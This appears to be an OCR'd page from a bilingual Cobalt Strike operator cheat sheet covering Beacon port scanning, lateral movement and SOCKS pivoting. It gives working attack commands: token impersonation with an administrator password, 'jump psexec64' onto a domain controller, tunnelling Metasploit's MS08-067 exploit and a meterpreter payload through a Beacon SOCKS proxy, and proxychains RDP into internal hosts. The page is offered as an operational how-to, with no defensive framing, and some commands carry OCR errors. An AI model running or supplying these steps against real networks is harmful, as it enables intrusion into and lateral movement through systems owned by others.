 ### Port Scanning/端口扫描模块

右击 Session - `Explore - Port Scan` 或

`portscan <hosts> [ports] [arp|icmp|none] [max connections]`

- Beacon has a port scanner for target discovery
- Arguments:
  - `hosts` is a range of targets `192.168.1.0/24,172.16.4.25-172.16.4.100`
  - `ports` is a range of ports to scan `1-1024,5900,8000-9000`
  - `discover` is the method to check if a host is alive. `arp,icmp`,or `none`.
  - `max` is the maximum number of sockets open at once `4` for Windows XP is OK,`1024` for Windows 7 and later

```sh
beacon > make token CORP\Administrator password1234!
beacon > jump psexec64 POWERDC local - smb
```

### Pivoting through SOCKS

- Tunnel Traffic
  - Set up a SOCKS4a proxy server tunneling through the current Beacon
  - `socks [port]`
  - Use `socks stop` to kill the SOCKS proxy server.
- `View - Proxy Pivots` to manage pivots.

#### Tunnel Metasploit through Beacon

- Force the Metasploit Framework to use your SOCKS proxy server for connections:
  - `setg Proxies socks4:127.0.0.1:[port]`
  - `setg ReverseAllowProxy true`
- To stop pivoting in this way:
  - `unsetg Proxies`

msf

```sh

msf > use exploit/windows/smb/ms08_067_netapi
msf > set PAYLOAD windows/meterpreter/bind_tcp
msf > set RH0ST 192.168.58.205
msf > setg Proxies socks4:127.0.0.1:1234
msf > run -j

msf > session -i 1
meterpreter > sysinfo

beacon > socks 2000

vi /etc/proxychains.conf
# socks4 127.0.0.1 2000
proxychains rdesktop 10.10.10.5
```
